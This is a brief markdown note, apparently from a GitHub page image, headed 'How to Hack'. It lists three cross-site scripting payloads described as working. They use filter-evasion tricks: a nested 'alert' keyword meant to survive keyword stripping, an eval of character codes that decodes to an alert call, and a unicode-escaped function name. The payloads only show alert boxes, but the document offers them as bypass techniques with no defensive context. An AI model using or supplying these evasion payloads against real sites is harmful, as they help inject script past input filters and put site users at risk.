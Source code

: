 # How to Hack

- Some exploit payloads:
    - <script>aleralertt("XSS")</script>
    - Also works: <script>eval(String.fromCharCode(97,%20108,%20101,%20114,%20116,%2040,%2039,%2072,%20101,%20108,%20108,%20111,%2044,%2032,%2087,%20111,%20114,%20108,%20100,%2033,%2039,%2041,%2059));</script>
    - Also works: <script>\u0061lert(1)</script>
